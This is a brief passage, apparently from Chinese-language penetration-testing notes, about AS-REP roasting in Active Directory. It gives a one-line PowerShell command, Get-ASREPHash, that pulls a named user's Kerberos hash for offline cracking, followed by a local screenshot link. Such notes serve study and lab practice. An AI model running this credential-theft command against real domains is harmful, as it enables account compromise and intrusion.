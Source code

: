 关闭以后获取这个用户的krb5哈希

```
Get-ASREPHash -UserName Control359User -Verbose
```



![image-20220307225731335](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307225731335.png)


















